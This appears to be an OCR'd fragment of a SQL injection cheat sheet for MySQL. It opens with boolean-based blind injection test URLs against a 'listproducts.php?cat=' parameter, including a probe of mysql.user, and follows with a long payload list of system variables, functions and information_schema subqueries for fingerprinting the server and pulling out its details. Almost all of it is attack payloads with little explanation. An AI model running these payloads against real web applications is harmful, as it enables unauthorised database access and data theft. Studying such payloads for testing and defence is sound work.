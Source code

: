* Test if subset works - If returns True then subset works

```
http://$ip/listproducts.php?cat=1 and (select 1)=1
```

* Test if subset works, test for mysql.user - If returns True then subset works

```
http://$ip/listproducts.php?cat=1 and (select 1 from mysql.user limit 0,1)=1
```

#### Injection

```
@@hostname                             
@@tmpdir
@@datadir
@@basedir
@@log
@@log_bin                                                                
@@log_error                                                          
@@binlog_format                       
@@time_format                                                    
@@date_format                                                    
@@ft_boolean_syntax                                           
@@innodb_log_group_home_dir                                            
@@new                                                                  
@@version                                                              
@@version_comment
@@version_compile_os
@@version_compile_machine
@@GLOBAL.have_symlink
@@GLOBAL.have_ssl
@@GLOBAL.VERSION

version()                                                            
table_name()                                                           
user()                                                                 
system_user()                                                          
session_user()
database()                                                             
column_name()                                                          
collation(user())                                                      
collation(\N)                                                          
schema()
UUID()
current_user()
current_user


dayname(from_days(401))                                                
dayname(from_days(402))                                                
dayname(from_days(403))                                                
dayname(from_days(404))                                                
dayname(from_days(405))                                                
dayname(from_days(406))                                                
dayname(from_days(407))                                                

monthname(from_days(690))                                              
monthname(from_unixtime(1))
                                          
collation(convert((1)using/**/koi8r))

(select(collation_name)from(information_schema.collations)where(id)=1 
(select(collation_name)from(information_schema.collations)where(id)=23 
```